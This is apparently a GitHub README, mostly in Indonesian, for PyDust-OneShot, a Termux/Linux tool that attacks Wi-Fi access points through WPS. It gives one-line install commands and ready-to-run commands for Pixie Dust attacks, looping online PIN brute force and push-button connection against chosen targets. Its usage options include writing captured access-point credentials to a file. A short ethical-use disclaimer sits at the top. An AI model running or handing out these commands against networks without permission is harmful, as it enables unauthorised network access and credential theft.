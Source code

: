 # PyDust - Termux/Linux WPS Brute Force Tool
⚠️ **HANYA UNTUK TUJUAN PEMBELAJARAN/PENELITIAN ETIS** ⚠️  
Penulis tidak bertanggung jawab atas penyalahgunaan.

## Fitur
- Serangan brute force WPS
- Mode Pixie Dust attack
- Dukungan untuk daftar perangkat rentan
- Pemindaian jaringan Wi-Fi otomatis


## Important to **Install dependencies:**

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
termux-setup-storage
```

---

## ⚡ Instalasi Cepat (All-in-One Command)

```bash
apt update && apt upgrade -y && \
pkg install root-repo git tsu python wpa-supplicant pixiewps iw openssl -y && \
git clone --depth 1 https://github.com/risunCode/PyDust-OneShot && \
termux-setup-storage && \
sudo python PyDust-OneShot/pydust.py -i wlan0 -K
```

## 📁 Clone Tanpa Dependencies
```bash
git clone --depth 1 https://github.com/risunCode/PyDust-OneShot
```

---
## 🔄 Reinstall OneShot (Hapus & Clone Ulang)
```bash
rm -rf PyDust-OneShot
git clone https://github.com/risunCode/PyDust-OneShot.git
sudo python pydust.py -i wlan0 -d 5 -l -K
```

---

### ▶️ Running Script.

- **Pixie Dust (interface down):**
```bash
sudo python PyDust-OneShot/pydust.py -i wlan0 --iface-down -K
```

- **Pixie Dust Unlimited:**
```bash
sudo python PyDust-OneShot/pydust.py -i wlan0 -d 3 -l -K
```

- **Online Brute Force:**
```bash
sudo python PyDust-OneShot/pydust.py -i wlan0 -l -B
```

- **Push Button Connect (semua target):**
- contoh target
- -i wlan0 --push-button-connect -b 00:90:4C:C1:AC:21
```bash
sudo python PyDust-OneShot/pydust.py -i wlan0 -l --push-button-connect
```

 # Usage
```
 pydust.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps;
* `drydryg` for his amazing work on `rofl0r` repo.
* mff aing cuman nempel nama hehe

#### Another good repo
-